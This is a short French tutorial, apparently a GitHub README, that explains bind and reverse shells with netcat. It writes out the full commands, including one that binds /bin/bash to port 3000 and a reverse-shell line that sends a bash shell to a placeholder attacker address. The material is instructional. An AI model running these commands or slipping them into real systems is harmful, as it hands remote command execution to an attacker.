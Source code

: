 ## Bind And Reverse shell

## 1️⃣ Bind Shell /Shell de liaison
Pour configurer un "shell de liaison" avec Netcat, nous effectuerons les actions suivantes (dans un terminal linux):

Sur le serveur:

Server@ netcat -v -l -p 3000 -e /bin/bash

le shell bash est lié maintenant au port 3000

Sur le poste Attacker :

Attacker@ netcat IP_SERVER  3000

Et là, l'attaquant, obtient un "shell" sur le serveur que l'on peut exploiter pour lui faire exécuter des commandes à distance.


## 2️⃣ Reverse Shell /Shell inversé

L'attaquant démarre, sur son poste, un processus d'écoute:
Attacker@ netcat -v -l -p 3000

Le serveur renvoie un shell inversé à Attacker :

Server@ netcat IP_ATTACKER 3000 -e /bin/bash

Et là,aussi, l'attaquant, obtient un "shell inversé" sur le serveur que l'on peut exploiter pour lui faire exécuter des commandes à distance.

